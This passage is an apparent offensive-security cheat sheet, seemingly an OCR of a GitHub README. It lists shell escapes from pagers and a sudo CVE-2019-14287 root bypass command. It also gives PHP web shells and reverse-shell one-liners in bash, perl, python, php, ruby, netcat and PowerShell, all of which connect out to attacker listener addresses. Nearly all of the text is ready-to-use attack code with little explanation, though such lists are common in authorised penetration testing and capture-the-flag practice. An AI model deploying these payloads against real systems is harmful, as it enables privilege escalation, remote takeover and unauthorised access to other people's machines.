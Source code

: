 &nbsp;&nbsp;&nbsp;&nbsp;<code> 1. Using less or more or man, etc, which accept commands by giving a ! And command like !sh </code>

&nbsp;&nbsp;&nbsp;&nbsp;<code> 2. Open large file, type anything and then give it !/bin/sh or !sh etc! </code>

### sudo cve CVE-2019-14287

If sudo is < 1.8.28 there's an easy bypass to root

&nbsp;&nbsp;&nbsp;&nbsp;<code>sudo -u#-1 /bin/bash</code>

### php one liners

just some useful php one liner commands if you can get code exec in php
~~~
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>

<?php $sock=fsockopen("192.168.1.12",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>

<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f"); ?>

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'");?>

~~~

### reverse shells

~~~
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f #if you encounter the nc without -e option

powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('<LISTENERIP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
 
 ~~~
 